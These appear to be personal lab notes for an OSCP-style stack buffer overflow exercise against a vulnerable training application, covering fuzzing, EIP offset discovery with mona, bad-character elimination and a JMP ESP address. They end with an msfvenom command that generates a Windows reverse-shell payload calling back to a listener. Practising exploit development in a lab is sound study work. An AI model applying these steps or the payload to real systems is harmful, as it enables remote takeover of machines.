 ### EIP
❯ python3 fuzzer.py
Fuzzing crashed at 2100 bytes

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

!mona findmsp -distance 2500

Log data, item 19
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x6f43396e (offset 2026)


BBBB and empty payload verified the offset

### Bad chars
##### Round 1
!mona bytearray -b "\x00"

ESP 0196FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 0196FA30

00 a9 aa cd ce d4 d5

##### Round 2
!mona bytearray -b "\x00\xa9\xcd\xd4"

ESP 0197FA30

!mona compare -f C:\mona\oscp\bytearray.bin -a 0197FA30

\x00\xa9\xcd\xd4

### JMP ESP
!mona jmp -r esp -cpb "\x00\xa9\xcd\xd4"

Log data, item 11
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)

0x625011af
\xaf\x11\x50\x62

### Payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.3.98 LPORT=3333 EXITFUNC=thread -b "\x00\xa9\xcd\xd4" -f c